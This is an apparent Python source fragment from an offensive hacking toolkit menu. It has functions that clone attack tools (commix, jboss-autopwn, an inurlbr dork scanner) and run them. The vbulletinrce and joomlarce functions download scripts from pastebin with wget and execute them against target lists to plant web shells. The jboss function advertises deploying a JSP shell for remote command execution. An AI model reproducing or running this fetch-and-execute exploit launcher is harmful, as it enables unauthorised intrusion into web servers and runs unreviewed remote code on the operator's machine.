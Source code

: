 
def commix():
    print ("Automated All-in-One OS Command Injection and Exploitation Tool.")
    print ("usage: python commix.py --help")
    if yesOrNo():
        os.system(
            "git clone --depth=1 https://github.com/stasinopoulos/commix.git commix")
        os.system("cd commix")
        os.system("python commix.py")
        os.system("")
    else:
        informationGatheringMenu.completed("Commix")


def vbulletinrce():
    os.system("wget http://pastebin.com/raw/eRSkgnZk --output-document=tmp.pl")
    os.system("perl tmp.pl")


def joomlarce():
    os.system("wget http://pastebin.com/raw/EX7Gcbxk --output-document=temp.py")
    clearScr()
    print("if the response is 200 , you will find your shell in Joomla_3.5_Shell.txt")
    jmtarget = raw_input("Select a targets list:")
    os.system("python temp.py %s" % jmtarget)


def inurl():
    dork = raw_input("select a Dork:")
    output = raw_input("select a file to save:")
    os.system(
        "./inurlbr.php --dork '{0}' -s {1}.txt -q 1,6 -t 1".format(dork, output))
    webHackingMenu.completed("InurlBR")


def insinurl():
    os.system(
        "git clone --depth=1 https://github.com/googleinurl/SCANNER-INURLBR.git")
    os.system("chmod +x SCANNER-INURLBR/inurlbr.php")
    os.system("apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl")
    os.system("mv /SCANNER-INURLBR/inurbr.php inurlbr.php")
    clearScr()
    inurl()


def jboss():
    clearScr()
    print ("This JBoss script deploys a JSP shell on the target JBoss AS server. Once")
    print ("deployed, the script uses its upload and command execution capability to")
    print ("provide an interactive session.")
    print ("")
    print ("usage: ./e.sh target_ip tcp_port ")
    print("Continue: y/n")
    if yesOrNo():
        os.system(
            "git clone --depth=1 https://github.com/SpiderLabs/jboss-autopwn.git"), sys.exit()
    else:
        fsociety()
